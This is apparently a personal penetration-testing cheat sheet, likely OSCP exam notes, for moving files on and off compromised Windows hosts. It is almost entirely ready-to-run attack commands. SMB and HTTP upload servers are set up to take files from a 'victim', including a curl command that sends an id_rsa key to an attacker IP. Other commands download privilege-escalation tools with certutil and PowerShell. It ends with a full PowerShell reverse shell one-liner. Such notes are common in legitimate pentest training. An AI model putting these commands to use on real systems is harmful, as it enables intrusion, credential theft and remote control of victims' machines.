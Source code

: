 #windows #powershell #reverseShells #datatransfer
https://github.com/eMVee-NL/MindMap
🔴 If the user is low priv use below directories

```
C:\temp
C:\windows\temp
```

Inside a pivot use:

```powershell
New-SmbShare -Name "SMB2" -Path "C:\TEMP\" -FullAccess Everyone
```
### SMB
🔴 Use like below if the initial one doesnt work  and its passed as an argument
```
net use z: \\\\192.168.45.213\\smb
```
##### Getting Files from the Victim

```bash
impacket-smbserver -smb2support smb ~/oscp/Windows_Tools
```

```powershell
copy-item Infrastructure.pdf \\192.168.45.156\smb\check.pdf
```
if it asks for credentials first
```cmd
net use z: \\192.168.225.128\smb
```
##### or


```powershell
net use z: \\192.168.45.241\smb 
```

```powershell
copy hey.zip z:
```

```powershell
net \\192.168.45.241\smb \del
```

#### Files to Victim

```powershell
net use \\192.168.45.241\smb
```

```powershell
copy \\192.168.45.241\smb\powercat.ps1 C:\windows\temp
```

### HTTP/HTTPs

##### Python Upload

```bash
python3 -m uploadserver
```

from the victim

```bash
curl -X POST http://192.168.45.216/upload -H -F 'files=@id_rsa' 
```
##### Files from Victim

```bash
sudo mkdir /var/www/uploads
sudo chown www-data:www-data /var/www/uploads
sudo chmod 766 /var/www/uploads
```

```bash
sudo service apache2 start
```

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.241/upload.php','C:\users\marcus\documents\body.txt')
```
 Second argument needs full path
##### File Transfer

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

##### File download

```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```

```cmd
certutil.exe -urlcache -split -f http://192.168.45.213/GodPotato/GodPotato-NET4.exe C:\Users\tony\g.exe
```

🔴 Might have to use below if an argument parsed
```windows
certutil.exe -urlcache -split -f http://192.168.45.213/GodPotato/GodPotato-NET4.exe C:\\Users\\tony\\g.exe
```
#### Reverse shell

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

